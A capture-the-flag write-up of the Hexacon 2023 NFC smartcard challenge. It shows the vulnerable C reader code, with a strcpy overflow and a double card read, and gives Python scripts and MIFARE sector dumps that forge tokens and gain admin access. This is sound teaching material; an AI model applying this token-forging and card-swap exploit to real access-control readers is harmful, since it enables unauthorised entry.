



Ninja Cards
Intro
At the 2023 edition of hexacon there were various CTF challenges, one of which organized at the venue by the event’s organizer, Synacktiv. It involved a smartcard reader attached to small computer and a screen, and a stack of smartcards. The goal of the challenge is to somehow authenticate as admin, which should pop up a specific message on the screen that shows “Waiting for NFC tag…” in Figure 1.

We grabbed one card from the stack on the bottom left and read it out using MIFARE Classic Tool. Fortunately it used one of the standard keys included in the application. The dump showed some data in sectors 1, 2 and 3 as shown in Figure 2.

The sectors 1 and 3 contain some interesting strings as shown in Listing 1.
Listing 1: Data in card
0000 68 65 78 61 63 6f 6e 5f 67 75 65 73 74 00 00 00 |hexacon_guest...|
0010 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 |................|
*
0030 ff ff ff ff ff ff ff 07 80 69 ff ff ff ff ff ff |.........i......|
0040 0b 5f 6a 80 4d ad d1 4b 53 14 58 58 f2 6b 7d f0 |._j.M..KS.XX.k}.|
0050 ba 62 dd 2f 89 44 0e 14 5c 35 2b db 00 c8 09 0a |.b./.D..\5+.....|
0060 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 |................|
0070 ff ff ff ff ff ff ff 07 80 69 ff ff ff ff ff ff |.........i......|
0080 68 74 74 70 73 3a 2f 2f 74 69 6e 79 75 72 6c 2e |https://tinyurl.|
0090 63 6f 6d 2f 33 6e 76 6d 66 65 61 75 00 00 00 00 |com/3nvmfeau....|
00a0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 |................|
00b0 ff ff ff ff ff ff ff 07 80 69 ff ff ff ff ff ff |.........i......|The URL brings us to a zip archive containing files shown in Listing 2. This is a subset of the code running on the small computer, handling the data read from the card’s sectors.
Listing 2: Archive contents
.
├── README.md
└─── src
├── include
│ ├── ipc.h
│ ├── main.h
│ ├── nfc.h
│ └── util.h
├── main.c
└── util.cThe README.md explains the challenge:
Dear Hexacon guest,
If you read these lines, you probably visited the Synacktiv stand
and some ninjas might have briefed you.
Otherwise, the goal is to exploit vulnerabilities inside the NFC
reader to authenticate successfully as admin.
The sources of the challenge are available into the `src/` directory.
NB: Some files such as `ipc.c` and `nfc.C` which implement some
used functions are not part of the archive, this is intended, as
they are not needed to complete the challenge.
Have fun ! o/The main (Listing 3) of the application, initializes an admin token stored in the filesystem of the machine with get_admin_token and then enters a reading loop. When presented a card, the notify calls update messages on the screen.
Listing 3: main and get_admin_token functions
#include "main.h"
#include "util.h"
#include "nfc.h"
uint8_t admin_token[TOKEN_SIZE];
context_t context;
uint8_t key[KEY_SIZE];
uint32_t iterations;
int main(int argc, char *argv[]) {
// Retrieve secret
if (get_admin_token(admin_token)) {
printf("[-] Failed to retrieve secret\n");
notify(UNEXPECTED_FAIL);
return -1;
}
for (;;) {
iterations = 1000;
// Retrieve NFC card username
read_card(&context);
if (derive_key(admin_token, iterations, key) == 0) {
notify(UNEXPECTED_FAIL);
sleep(2);
continue;
}
status_t status = check_token(&context, admin_token, key);
notify(status);
if (status == VALID_TOKEN) {
sleep(1);
if (!strcmp(context.username, ADMIN_USERNAME)) {
notify(ADMIN_AUTH);
} else {
notify(GUEST_AUTH);
}
sleep(1);
}
sleep(2);
}
return 0;
}
int get_admin_token(char * admin_token)
{
FILE * fd;
size_t count;
if ((fd = fopen("data/admin_token.bin", "rb")) == NULL) {
perror("fopen");
return -1;
}
if ((count = fread(admin_token, 1, TOKEN_SIZE, fd)) != TOKEN_SIZE) {
perror("fread");
return -1;
}
fclose(fd);
return 0;
}Bug 1
read_card (Listing 4) moves data from the card’s sectors into the global context. This function contains the first potential vulnerability, as it uses strcpy to move the content from the third sector. This function will keep reading data from the card until a 0-byte is encountered.
Listing 4: read_card function
void read_card(context_t *ctx)
{
uint8_t sectors[SECTORS_COUNT * BLOCKS_COUNT * BLOCK_SIZE];
read_nfc_tag(sectors);
// Read username
strncpy(ctx->username, read_sector(sectors, 1), USERNAME_SIZE - 1);
// Read token
memcpy(ctx->token, read_sector(sectors, 2), TOKEN_SIZE);
// Read data
strcpy(ctx->data, read_sector(sectors, 3));
}The data field in the context structure has space for the amount of data (0x30 bytes) of sector 3. context is stored in the globals together with the admin_token, key and iterations (see Listing 3). So by overflowing the data field we can overwrite key and iterations. iterations determines the amount of hash iterations are performed in the PKCS5_PKBDF2_HMAC key derivation step in derive_key (see Listing 5).
Listing 5: derive_key function
int derive_key(char * admin_token, uint32_t iterations, char * key)
{
return PKCS5_PBKDF2_HMAC(
admin_token, // pass
TOKEN_SIZE, // passlen
NULL, // salt
0, // saltlen
iterations, // iter
EVP_sha256(), // digest
KEY_SIZE, // keylen
key // out
);
}If we can obtain the admin_token, we can create a card where the username is hexacon_admin and the token is admin_token. This should lead us to the authenticated admin screen.
In a normal run iterations is set to 1000 (see Listing 3), which is not very high for a proper key derivation system. So it could be that admin_token is some brute-forcible string that could be found in a wordlist, as the salt input is set to NULL. With the overflow we could change the amount of iterations to 1, so then just a single SHA256 hash is calculated over the password. However it is more likely that the designer of the challenge just put a random 0x20 byte string in there. In this case even bruteforcing a single 256-bit hash is not feasible.
We considered setting iterations to 0, so that perhaps no hash is calculated at all. This case is normaly caught by the OpenSSL implementation that was likely used, looking at the function signature. So this would not work either.
In the compute_token function (Listing 6), the key[] array, resulting from derive_key function, is used to perform authentication by XORing it with the SHA256 hash of the provided username, stored in sector 1 of the card.
Listing 6: compute_token and check_token functions
int compute_token(context_t *ctx, char * key, char * token)
{
char to_sign[USERNAME_SIZE] = {};
memcpy(to_sign, ctx->username, USERNAME_SIZE);
if (SHA256(to_sign, strlen(ctx->username), token) == NULL) {
return -1;
}
for (int i = 0; i < TOKEN_SIZE; i++) {
token[i] ^= key[i];
}
return 0;
}
status_t check_token(context_t * ctx, uint8_t * admin_token, uint8_t * key)
{
if (!strcmp(ctx->username, ADMIN_USERNAME)) {
// Admin authentication
if (memcmp(ctx->token, admin_token, TOKEN_SIZE)) {
return INVALID_TOKEN;
}
} else {
// Regular guest authentication
// Read card with token to check authenticity
read_card(ctx);
uint8_t expected_token[TOKEN_SIZE] = {};
if (compute_token(ctx, key, expected_token)) {
return UNEXPECTED_FAIL;
}
#ifdef DEBUG
...
#endif
if (memcmp(ctx->token, expected_token, TOKEN_SIZE)) {
return INVALID_TOKEN;
}
}
return VALID_TOKEN;
}The unmodified card passes the token checks as guest, as shown on the screen, so we know that the token in sector 2 matches the username in sector 3. Therefore, we can calculate the value of key by simply XORing it with the hash of the username from sector 1 as shown below.
Listing 7: Code to recover authentication key
token = bytes.fromhex(
'0B5F6A804DADD14B53145858F26B7DF0BA62DD2F89440E145C352BDB00C8090A')
key = bytes(a ^ b for a, b in zip(token, sha256(b'hexacon_guest').digest()))
print(f'{key.hex()}')
# '78eae65a206ad5631fc11748edeb2f84a01723b32c7b9adbe1a6311f207ea2bf' We can now forge tokens for any username, including hexacon_admin, which should pop up the notify(ADMIN_AUTH). However, if we set username like this, the check_token function (Listing 6) will take a different path where it compares against the admin_token, which we still don’t know, and also cannot reach with the strcpy overflow.
Bug 2
Then we noticed the application reads a second time from the card while in the non-admin branch of check_token, which will refill the global context structure. This means the application contains a TOCTOU type vulnerability where some checks are performed on one copy of the data, and then performs actions based on another copy of the data. Namely, the check on username to reach the right branch is performed on the first copy from the card, while the check in the main loop, which determines which final message we reach, is performed on the second read. So if we can switch the username portion of the card’s data fast enough, we can reach the right branch in check_token while setting the username to hexacon_admin and triggering the notify(ADMIN_AUTH). With something like a Proxmark or a Flipper Zero it’s probably possible to switch between card data fast enough. Alternatively, we could simply use two cards, write the different usernames with matching tokens, and switch them in between reads, if we are fast enough. However, our ninja skills were fast enough :(
Ninja skills
Recall the iterations variable that we could overwrite with the overflow. This determines the amount of times the pseudorandom function (HMAC in this case) is applied on the potentially weak password input in the PBKDF2_HMAC function. Setting this value really high, rather than really low, also means more computation time is needed in the application reading the cards. Furthermore, this calculation is performed between the two card reads, so this might give us enough time to manually switch between two cards.
int main(int argc, char *argv[]) {
...
for (;;) {
...
// v- first card read
read_card(&context);
// v- PBKDF in here
if (derive_key(admin_token, iterations, key) == 0) {
...
}
// v- second card read in here
status_t status = check_token(&context, admin_token, key);
...
if (status == VALID_TOKEN) {
if (!strcmp(context.username, ADMIN_USERNAME)) {
notify(ADMIN_AUTH);
} else {
notify(GUEST_AUTH);
}
}
}
}We now need to set up two cards in the following way to combine both the buffer overflow and the TOCTOU bugs:
- One card will contain any
usernamestring in sector 1 that is nothexacon_admin. This card needs to trigger the overflow to overwriteiterations. By doing this, it will also overwritekey[], so we need to replace thetokenin sector 2 such that it matches with the overwrittenkey[]. Due to the offsets, the last 0x10 bytes of sector 3 will end up inkey[]which contain some special values. The functionread_nfc_tagfromnfc.hwarns us that “the NFC tag A key MUST be ”FFFFFFFFFFFF””, which refers to to the light green portion of Figure 2. We just left all those bytes as they were, so we recalculated thetokenas shown in Listing 7, i.e.token = sha256(username) ^ key. The first 0x10 bytes of sector 4 will be the second half of the key, we just filled this with 0xff-bytes. Then the following 4 bytes of sector 4 can be used to control theiterationsvariable to something large like0xffffffff. - The second card will contain the
hexacon_adminstring in theusername’s sector 1. This card will need also a valid token matching the previously overwrittenkey[], which is generated following the sametoken = sha256(username) ^ keycalculation.
By presenting first the guest card, and then swapping to the admin card while the PBKDF2_HMAC calculation is working, we should land on the notify(ADMIN_AUTH) page.
The Python script in Listing 8 generates the data for both cards’ sectors. Listing 9 shows the data for the relevant card sectors.
Listing 8: Code to generate the card data that exploits the vulnerabilities
from hashlib import sha256
key_suffix = 'FFFFFFFFFFFFFF078069FFFFFFFFFFFF'
# Calculate original key, output of pbkdf with unknown password
# and empty salt
token1 = sha256(b'hexacon_guest').digest()
token2 = bytes.fromhex(
'0B5F6A804DADD14B53145858F26B7DF0BA62DD2F89440E145C352BDB00C8090A')
key = bytes(a ^ b for a, b in zip(token1, token2))
# Calculate data for first card with hexacon_guest username
token3 = sha256(b'hexacon_guest').digest()
key2 = bytes.fromhex(key_suffix) + b'\xff'*0x10
token4 = bytes(a ^ b for a, b in zip(token3, key2))
print('guest card')
print()
print('Sector 2 token')
print()
print(token4[:16].hex().upper())
print(token4[16:].hex().upper())
print('00'*16)
print(key_suffix)
print()
print('Sector 3 data')
print()
print((b'A'*0x10).hex().upper())
print((b'A'*0x10).hex().upper())
print((b'A'*0x10).hex().upper())
print(key_suffix)
print()
print('Sector 4 overflow')
print('FF'*16) # Second half of key
print('FF'*4 + '00'*12) # iterations value
print('00'*16)
print(key_suffix)
print()
print('admin card')
token5 = sha256(b'hexacon_admin').digest()
key2 = bytes.fromhex(key_suffix) + b'\xff'*0x10
token6 = bytes(a ^ b for a, b in zip(token5, key2))
print()
print('Sector 1 username')
print()
print(b'hexacon_admin'.hex().upper() + '00'*3)
print('00'*16)
print('00'*16)
print(key_suffix)
print()
print('Sector 2 token')
print()
print(token6[:16].hex().upper())
print(token6[16:].hex().upper())
print('00'*16)
print(key_suffix)
print()Listing 9: Data for both cards
guest card
Sector 2 token
8C4A73259238FB2FCCBCB0EFE07FAD8B
E58A01635AC06B30426CE53BDF49544A
00000000000000000000000000000000
FFFFFFFFFFFFFF078069FFFFFFFFFFFF
Sector 3 data
41414141414141414141414141414141
41414141414141414141414141414141
41414141414141414141414141414141
FFFFFFFFFFFFFF078069FFFFFFFFFFFF
Sector 4 overflow
FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
FFFFFFFF000000000000000000000000
00000000000000000000000000000000
FFFFFFFFFFFFFF078069FFFFFFFFFFFF
admin card
Sector 1 username
68657861636F6E5F61646D696E000000
00000000000000000000000000000000
00000000000000000000000000000000
FFFFFFFFFFFFFF078069FFFFFFFFFFFF
Sector 2 token
49B0B706DBF13385983D75887C4F1061
78BB9677F34F57110D1584800037F513
00000000000000000000000000000000
FFFFFFFFFFFFFF078069FFFFFFFFFFFFSuccess!
Even with our slow ninja skills, we now are fast enough to see the success screen!

We were not fast enough to win the first prize, but we were fast enough to win the second prize, a very cool o.mg.lol cable! Great challenge, very creative way of triggering and using a buffer overflow!